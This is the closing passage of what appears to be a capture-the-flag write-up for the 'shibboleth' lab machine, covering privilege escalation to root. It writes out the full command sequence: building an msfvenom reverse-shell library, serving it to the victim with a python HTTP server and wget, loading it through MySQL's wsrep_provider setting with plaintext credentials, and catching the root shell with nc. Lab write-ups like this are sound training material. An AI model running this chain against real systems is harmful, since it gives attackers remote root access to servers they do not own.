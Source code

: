 #### Final Step

* Create the reverse shell payload
* msfvenom -p linux/x64/shell\_reverse\_tcp LHOST= LPORT= -f elf-so -o root.so
* I've used python http server and wget to download the payload
  * python3 -m http.server 80 \[ Attacker ]
  * wget http://\<your\_ip>/root.so \[ Victim ]
* Setup a nc listener

```bash

# Login with creds we got earlier 
ipmi-svc@shibboleth:~$ mysql -u zabbix -pbloooarskybluh -h localhost -e 'SET GLOBAL wsrep_provider="/tmp/root.so";'
<host -e 'SET GLOBAL wsrep_provider="/tmp/root.so";'
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query

```

### Rooted the machine

```bash

└─$ nc -nvlp 4433                    
listening on [any] 4433 ...
connect to [10.10.14.47] from (UNKNOWN) [10.129.99.153] 49958

python3 -c "import pty;pty.spawn('/bin/bash')"
root@shibboleth:/var/lib/mysql#id
uid=0(root) gid=0(root) groups=0(root) 

root@shibboleth:/var/lib/mysql# cat /root/root.txt
<--SNIP-->

```

**Box pwned**

![image](https://user-images.githubusercontent.com/56447720/141778619-c4e8c92d-47cc-46b7-b212-c7c2bf4785e5.png)

